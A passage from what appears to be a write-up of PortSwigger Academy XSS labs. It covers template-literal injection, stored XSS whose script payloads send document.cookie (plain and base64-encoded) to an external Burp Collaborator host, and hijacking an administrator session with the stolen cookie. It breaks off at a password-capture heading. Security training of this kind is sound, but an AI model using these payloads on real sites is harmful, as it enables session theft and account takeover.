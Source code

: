 If we inspect the code we see that in the script when declaring the variable 'message' is using **template literal**:

```js
var message = `1 search results for test'`;document.getElementById('searchMessage').innerText = message;
```

With template literal in place to use + to concadenate variables you can use backticks and call the variable with `${variable}`, we can try to execute javascript code:

```js
${alert(0)}
```

# Exploiting cross-site scripting to steal cookies

In this case we have a store XSS and we want to obtain the cookies of the users that trigger the XSS, for this, we have to use collaborator of Burpsuite because portswigger academy only allow this by measures of security.

The idea is to execute a fetch via Get to obtain the cookie.

In the comment section we can add the following:

```html
<script>
fetch("https://e9oyrrugv9cc5vm5vtyvehy1vs1jp9dy.oastify.com/?cookie=" + document.cookie);
</script>
```

The user don't see nothing, but if you open the developers tools and go to network section you see the request via GET.

But doing by this way is possible to loose some characters, for this reason, is better to use some type of encoding like **base64** to obtain the data:

```html
<script>
fetch("https://e9oyrrugv9cc5vm5vtyvehy1vs1jp9dy.oastify.com/?cookie=" + btoa(document.cookie));
</script>
```

Burpsuite automatically decode base64, if not you can use the terminal:

```bash
echo 'c2VjcmV0PXZPNlRWNW1mNW10dUhwQ21DdlJ1OEdMMnBlT3VJMThjOyBzZXNzaW9uPTRMNFlPeDVrZnJ2T3MzdURYaDhYWDd3YkkyU25zbVZS' | base64 -d; echo
```

Now if go to development tools > Storage > Cookie and replace the session value, reload the website and you are in the session of the Administrator user.

This is possible because the **HttpOnly** flag in the cookie is **false**.

# Exploiting cross-site scripting to capture passwords

In this case we are going to capture the user and the password of the user. In this lab is automatized that a user log in.
